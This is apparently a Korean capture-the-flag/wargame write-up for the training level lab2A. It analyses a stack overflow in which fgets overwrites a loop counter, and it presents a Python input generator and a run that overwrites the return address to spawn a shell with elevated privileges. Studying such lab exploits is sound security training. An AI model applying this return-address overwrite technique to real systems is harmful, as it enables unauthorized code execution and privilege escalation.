 ## 1. 문제 확인
- ID : lab2A
- Target : /level/lab02/lab2A
- flag : /home/lab2end/.pass
```
	lab2A@warzone:/levels/lab02$ ./lab2A
	Input 10 words:
	1234567890
	abcdefg
	1111111111
	2222222222
	3333333333
	4444444444
	5555555555
	6666666666
	7777777777
	8888888888
	Here are the first characters from the 10 words concatenated:
	1a12345678
	Not authenticated
	lab2A@warzone:/levels/lab02$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	/*
 	* compiled with:
 	* gcc -O0 -fno-stack-protector lab2A.c -o lab2A
 	*/

	void shell()
	{
        printf("You got it\n");
        system("/bin/sh");
	}

	void concatenate_first_chars()
	{
        struct {
            char word_buf[12];
            int i;
            char* cat_pointer;
            char cat_buf[10];
    	} locals;
    	locals.cat_pointer = locals.cat_buf;

    	printf("Input 10 words:\n");
    	for(locals.i=0; locals.i!=10; locals.i++)
    	{
        	// Read from stdin
        	if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
        	{
            	printf("Failed to read word\n");
            	return;
        	}
        	// Copy first char from word to next location in concatenated buffer
        	*locals.cat_pointer = *locals.word_buf;
        	locals.cat_pointer++;
    	}

    	// Even if something goes wrong, there's a null byte here
    	//   preventing buffer overflows
    	locals.cat_buf[10] = '\0';
    	printf("Here are the first characters from the 10 words concatenated:\n\%s\n", locals.cat_buf);
	}

	int main(int argc, char** argv)
	{
        if(argc != 1)
        {
            printf("usage:\n%s\n", argv[0]);
            return EXIT_FAILURE;
        }

        concatenate_first_chars();

        printf("Not authenticated\n");
        return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
#### 2.2.1 concatenate_first_chars()
- word_buf 크기가 12byte인데 fgets()함수에서 16byte(0x10)를 입력받을 수 있으므로 4byte overflow 발생 가능
```c
    ...
    struct {
            char word_buf[12];
            int i;
            char* cat_pointer;
            char cat_buf[10];
    } locals;
    ...
    if(fgets(locals.word_buf, 0x10, stdin) == 0 || locals.word_buf[0] == '\n')
    {
    ...
```
- word_buf 가 overflow 되면 i 값까지 덮어쓰게 되고, i 값이 10이 아니면 for문이 반복되므로 최종적으로 cat_buf 의 크기인 10byte보다 더 큰 값을 덮어쓸 수 있음
```c
    ...
    locals.cat_pointer = locals.cat_buf;

    printf("Input 10 words:\n");
	for(locals.i=0; locals.i!=10; locals.i++)
    {
    ...
    	*locals.cat_pointer = *locals.word_buf;
        locals.cat_pointer++;
    }
```
- fgets()함수를 통해 12byte 문자를 입력하면 Enter(0xa)까지 총 13byte가 word_buf 에 쓰여지고 다음 변수 i 까지 덮어쓰게 됨
  (※ i값이 0xa(10)부터 증가되므로 for문 조건에 의해 무한 반복됨)
```
    |-----------   word_buf  -----------| |---- i ----|
    [31 32 33 34 35 36 37 38 39 30 31 32] [0a 00 00 00]
      1  2  3  4  5  6  7  8  9  0  1  2   \n    
```
- for문을 반복하면서 word_buf 입력값의 첫 byte를 복사하여 cat_buf 에 순차적으로 붙여넣음
```
    ...
    0x08048777 <+90>:    mov    eax,DWORD PTR [ebp-0x18]
    0x0804877a <+93>:    movzx  edx,BYTE PTR [ebp-0x28]
    0x0804877e <+97>:    mov    BYTE PTR [eax],dl
    0x08048780 <+99>:    mov    eax,DWORD PTR [ebp-0x18]
    0x08048783 <+102>:   add    eax,0x1
    0x08048786 <+105>:   mov    DWORD PTR [ebp-0x18],eax
    ...
```
- cat_buf 의 위치는 word_buf 위치(ebp-0x28)로부터 20byte(0x14) 떨어져 있으므로 ebp-0x14 가 되며 cat_buf 값이 20byte가 넘어가게 되면 SFP, RET 주소를 순차적으로 덮어쓰게 됨
```
    0x0804871d <+0>:     push   ebp
    0x0804871e <+1>:     mov    ebp,esp
    0x08048720 <+3>:     sub    esp,0x38
    0x08048723 <+6>:     lea    eax,[ebp-0x28]
    0x08048726 <+9>:     add    eax,0x14
    0x08048729 <+12>:    mov    DWORD PTR [ebp-0x18],eax
    ...
```

<br/><br/>
## 3. Exploit
- 변수 i 값을 변경하여 반복문 횟수를 늘리고 cat_buf 값이 리턴주소까지 덮어쓰도록 함 
```
    =============================================>
    [word_buf][i][cat_pointer][cat_buf][dummy][SFP][RET]
        12     4       4          10      10    4  main() <-- shell() 주소로 변경
```
- 쉘을 띄워줄 shell()함수의 주소를 확인하여 리턴주소로 사용함
```
    gdb-peda$ p shell
    $2 = {<text variable, no debug info>} 0x80486fd <shell>
    gdb-peda$
```
- 다음 코드를 실행하여 입력 데이터를 생성함
```python
    print("a"*12)
    
    for i in range(23):
    	print("b")
        
    print("\xfd")
    print("\x86")
    print("\x04")
    print("\x08")
    
    print("")  // for문 강제 종료를 위한 입력
```
- 생성된 입력값을 전달하여 프로그램을 실행해주면 됨
  (※ 파이프는 cat 명령의 결과값만 전달하기 때문에 ;cat 명령을 추가하여 쉘이 input을 받을 수 있도록 해줘야 함)
```
    lab2A@warzone:/levels/lab02$ python /tmp/lab2a.py > /tmp/lab2a_input
    lab2A@warzone:/levels/lab02$ (cat /tmp/lab2a_input;cat) | ./lab2A
    Input 10 words:
    Failed to read word
    You got it
    id
    uid=1008(lab2A) gid=1009(lab2A) euid=1009(lab2end) groups=1010(lab2end),1001(gameuser),1009(lab2A)
```
